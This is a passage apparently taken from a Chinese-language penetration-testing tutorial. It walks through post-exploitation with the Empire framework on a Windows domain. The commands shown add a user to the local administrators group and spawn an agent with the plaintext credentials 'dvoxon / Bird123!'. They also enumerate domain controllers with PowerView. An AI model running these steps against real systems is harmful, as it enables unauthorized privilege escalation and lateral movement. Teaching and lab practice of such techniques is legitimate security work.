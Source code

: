 Great！如您所见，我们在计算机上连接的是wk_admin，当然不是域的一部分，而是工作站上的管理员。我们重命名wk_agent：
```
(Empire) > interact HRWTGSWH1H4TGHEK
(Empire: HRWTGSWH1H4TGHEK) > rename wkAgent
(Empire: wkAgent) >
```

如果在工作站上列出本地管理员成员，我们会注意到缺少dvoxon帐户。让我们把他列入这一特权名单，以此来表达我们对他的感激之情。
```
(Empire: wkAgent) > shell net localgroup administrators
Alias name administrators
Members
----------------------------------------------------------
wk_admin
it_support
The command completed successfully.
(Empire: wkAgent) > shell net localgroup administrators /add dvoxon
The command completed successfully.
```

我们可以让wk_admin代理继续运行，以便在计算机上执行各种操作：列出文件夹、获取文件等，但我们将被限制在此唯一的工作站上。

为了与Windows活动目录域通信并深入网络，我们需要一个具有有效域凭据的代理：dvoxon的帐户。因此，我们将使用他的凭据生成一个新的代理。这样，我们可以控制机器，也可以与域控制器通信以获取相关信息。
```
(Empire: wk_agent) > usemodule management/spawnas
(Empire: spawnas) > set UserName dvoxon
(Empire: spawnas) > set Password Bird123!
(Empire: spawnas) > set Domain GBSHOP
(Empire: spawnas) > set Listener FrontG_List
(Empire: spawnas) > set Agent wkAgent
(Empire: spawnas) > run
```
![](chap4/chap4-8.jpg)

使用dvoxon的代理和get_domain_controller模块，我们可以看到有两个域控制器：SV0198和SV0199。
```
(Empire: DvAgent) > usemodule
situational_awareness/network/powerview/get_domain_controller
(Empire: get_domain_controller) > execute
```
![](chap4/chap4-9.jpg)
